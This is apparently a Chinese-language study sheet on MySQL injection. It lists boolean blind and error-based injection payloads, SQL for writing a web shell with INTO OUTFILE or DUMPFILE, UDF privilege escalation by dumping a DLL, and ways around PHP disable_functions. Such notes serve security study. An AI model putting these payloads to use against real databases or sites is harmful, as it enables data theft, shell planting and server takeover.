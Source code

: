 #### Mysql一个@和两个@什么区别

-   @为用户变量，使用`SET @var1=1`赋值
-   @@ 为系统变量 ，包括全局变量`show global variables \G;`和会话变量`show session variables \G;`

#### 注入/绕过常用的函数

1.  基于布尔SQL盲注
    -   `left(database(),1)>'s'`
    -   `ascii(substr((select table_name information_schema.tables where tables_schema=database()limit 0,1),1,1))=101 --+`
    -   `ascii(substr((select database()),1,1))=98`
    -   `ORD(MID((SELECT IFNULL(CAST(username AS CHAR),0x20)FROM security.users ORDER BY id LIMIT 0,1),1,1))>98%23`
    -   `regexp`正则注入 `select user() regexp '^[a-z]';`
    -   `select user() like 'ro%'`
2.  基于报错的SQL盲注
    -   `Select 1,count(*),concat(0x3a,0x3a,(select user()),0x3a,0x3a,floor(rand(0)*2))a from information_schema.columns group by a;`

#### MySQL存储过程

#### 各种写shell的问题

1.  写shell用什么函数？
    -   `select ' into outfile 'D:/shelltest.php'`
    -   `dumpfile`
    -   `file_put_contents`
2.  outfile不能用了怎么办？ `select unhex('udf.dll hex code') into dumpfile 'c:/mysql/mysql server 5.1/lib/plugin/xxoo.dll';`可以UDF提权 https://www.cnblogs.com/milantgh/p/5444398.html
3.  dumpfile和outfile有什么不一样？outfile适合导库，在行末尾会写入新行并转义，因此不能写入二进制可执行文件。
4.  sleep()能不能写shell？
5.  写shell的条件？
    -   用户权限
    -   目录读写权限
    -   防止命令执行：`disable_functions`，禁止了`disable_functions=phpinfo,exec,passthru,shell_exec,system,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,show_source`，但是可以用dl扩展执行命令或者ImageMagick漏洞 https://www.waitalone.cn/imagemagic-bypass-disable_function.html
    -   open_basedir: 将用户可操作的文件限制在某目录下

#### 

### 注入类型

1.  基于报错注入
2.  基于布尔的注入，根据返回页面判断条件真假的注入
3.  基于时间的盲注，不能根据页面返回内容判断任何信息，用条件语句查看时间延迟语句是否执行（即页面返回时间是否增加）来判断。
4.  宽字节注入
5.  联合查询，可以使用 union 的情况下的注入。
6.  堆查询注入，可以同时执行多条语句的执行时的注入。

### SQL注入的原理
